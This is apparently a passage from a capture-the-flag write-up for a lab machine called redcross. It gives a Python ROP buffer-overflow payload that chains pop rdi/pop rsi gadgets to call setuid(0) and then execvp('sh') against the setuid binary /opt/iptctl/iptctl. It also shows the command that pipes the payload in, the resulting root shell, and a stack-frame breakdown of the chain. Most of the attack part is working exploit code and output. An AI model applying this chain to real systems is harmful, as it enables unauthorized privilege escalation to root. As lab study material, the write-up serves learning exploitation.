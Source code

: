 ```python
null = "\x00\x00\x00\x00\x00\x00\x00\x00"
                                                                                
payload = "allow" + "A"*29
payload += pop_rdi_addr + null + setuid_addr
payload += pop_rdi_addr + sh_addr + pop_rsi_pop_r15_addr + null + null + execvp_addr + "\n"
payload += "1.1.1.1" + "\n"

print(payload)
```

* Copy this script any run on victim machine

```bash
penelope@redcross:/dev/shm$ (python2 bof.py;cat -) | /opt/iptctl/iptctl -i
Entering interactive mode
id
uid=0(root) gid=1000(penelope) egid=0(root) groups=0(root),4(adm),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),112(lpadmin),116(scanner),1000(penelope),1003(mailadm)
```

## Explaining the payload structure
First things to understand is how the calling conventions work for 32-bit and 64-bit architectures.

```bash
execvp()
NULL
NULL
pop rsi; pop r15; ret
"sh"
pop rdi; ret
setuid()
NULL
pop rdi; ret
"allow" + "A"*29
```

To better understand, let's divide the payload into different stack frames.

```bash
# stack frame 2
execvp()
NULL
NULL
pop rsi; pop r15; ret
"sh"
pop rdi; ret

# stack frame 1
setuid()
NULL
pop rdi; ret
"allow" + "A"*29
```
